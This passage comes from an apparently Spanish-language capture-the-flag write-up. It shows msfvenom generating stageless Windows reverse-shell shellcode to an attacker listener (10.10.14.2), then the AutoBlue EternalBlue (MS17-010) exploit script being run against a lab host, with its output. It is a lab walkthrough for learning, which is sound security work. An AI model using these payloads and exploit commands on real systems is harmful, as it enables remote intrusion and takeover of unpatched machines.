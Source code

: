 ```bash
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y         
LHOST for reverse connection:                                   
10.10.14.2
LPORT you want x64 to listen on: 
443 
LPORT you want x86 to listen on:                                                                                                 
4443
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...                                                                                          
                                                                                                                                 
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin                                        

Generating x86 cmd shell (stageless)...                                                                                          
                                                                                                                                 
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.2 LPORT=4443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin  
                                
MERGING SHELLCODE WOOOO!!!
DONE
```

Ahora dentro del directorio `AutoBlue-MS17-010/` ejecutamos el programa `eternalblue_exploit7.py` pasandole de argumentos la dirección IP víctima *10.10.10.40* y el shellcode `shellcode/sc_x64.bin`: 

```bash
❯ python2 eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```
